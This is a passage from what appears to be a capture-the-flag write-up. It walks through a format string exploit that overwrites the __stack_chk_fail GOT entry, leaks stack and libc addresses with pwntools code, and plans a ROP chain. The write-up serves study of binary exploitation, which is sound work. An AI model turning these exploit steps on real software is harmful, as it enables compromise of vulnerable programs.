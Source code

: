 But the problem here is which `stack` address we need to leak most accurately because the address on the stack is always changing due to `ASLR`, but there is one thing that is always accurate, which is the address in `saved RBP`

So the payload for this part will be

```py
    offset = 8
    write = {
        exe.got["__stack_chk_fail"]: exe.sym["operation"]
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b".")
    sla(b">", b"10")
    sa(b">", payload)

    payload = f"hehe|%22$p|%45$p|".encode()
    payload = payload.ljust(106, b".")

    sa(b">", payload)
    ru(b"hehe|")
    leaks = rl().split(b"|")
    stack_leak = int(leaks[0], 16)
    stack = stack_leak - 0x1a8
    libc.address = int(leaks[1], 16) - 0x24083
    slog("libc base", libc.address)
    slog("stack_leak", stack_leak)
    slog("stack", stack)
```

Once we have the necessary things, we can put the ROP chain in. Note that a ROP chain using our format string is always longer than 200, and we need to change `fgets` to `gets`. We won't have to worry about the length of the payload anymore. Also, since we have re-executed the program many times, the `saved RBP` that we leaked is not the original `saved RBP` anymore.
![alt text](image-3.png)

What we need to do is find the `RBP` address that it will use on the first return by calculating the offset from what we leaked to that address. To find the address, we will run the program and input data in such a way that it does not change the value of the canary. When the program is about to return, we will see the value there.